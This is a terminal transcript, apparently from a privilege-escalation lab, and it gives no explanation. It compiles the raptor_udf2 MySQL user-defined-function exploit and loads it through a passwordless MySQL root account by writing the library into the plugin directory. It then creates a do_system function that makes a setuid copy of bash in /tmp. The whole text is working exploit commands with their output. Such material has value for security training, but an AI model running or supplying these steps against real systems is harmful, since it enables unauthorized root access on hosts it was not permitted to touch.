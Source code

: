```
user@debian:~$ cd /home/user/tools/mysql-udf
user@debian:~/tools/mysql-udf$ ls -l
total 4
-rw-r--r-- 1 user user 3378 May 15 05:55 raptor_udf2.c
user@debian:~/tools/mysql-udf$ gcc -g -c raptor_udf2.c -fPIC
user@debian:~/tools/mysql-udf$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
user@debian:~/tools/mysql-udf$
```

```
user@debian:~/tools/mysql-udf$ mysql -u root
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 35
Server version: 5.1.73-1+deb6u1 (Debian)

Copyright (c) 2000, 2013, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> create table foo(line blob);
Query OK, 0 rows affected (0.00 sec)

mysql> insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
Query OK, 1 row affected (0.00 sec)

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
Query OK, 1 row affected (0.00 sec)

mysql> create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected (0.00 sec)

mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
+------------------------------------------------------------------+
| do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash') |
+------------------------------------------------------------------+
|                                                                0 |
+------------------------------------------------------------------+
1 row in set (0.00 sec)

mysql> exit
Bye
user@debian:~/tools/mysql-udf$
```
